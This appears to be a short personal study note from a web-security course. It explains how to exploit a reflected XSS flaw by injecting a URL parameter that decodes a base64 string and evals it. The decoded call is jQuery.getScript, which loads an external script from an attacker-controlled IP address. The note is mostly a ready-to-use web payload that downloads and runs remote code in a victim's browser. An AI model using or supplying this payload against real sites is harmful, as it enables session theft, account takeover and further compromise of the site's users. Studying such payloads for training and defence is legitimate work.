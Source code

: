 ```yaml
---
tags:
  - jquery
  - xss
---
```


# Inject external script in url

Note: it is worked in site with vulnerable to XSS, and get parameter value can be evaluated in  client JS

We want inject:
```js
jQuery.getScript('http://192.168.49.55/xss.js')
```
Enconde this string to base64
![[Pasted image 20230430151850.png]]
Inject to url: 
```html
ref='+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDkuNTUveHNzLmpzJyk=')))+'
```

btoa  - encode to base64 response of eval
eval - evaluate script
atob - decode base64


## Resources:
1. web200.Cross-Site Scripting Exploitation and Case Study. Case Study: Shopizer Reflected XSS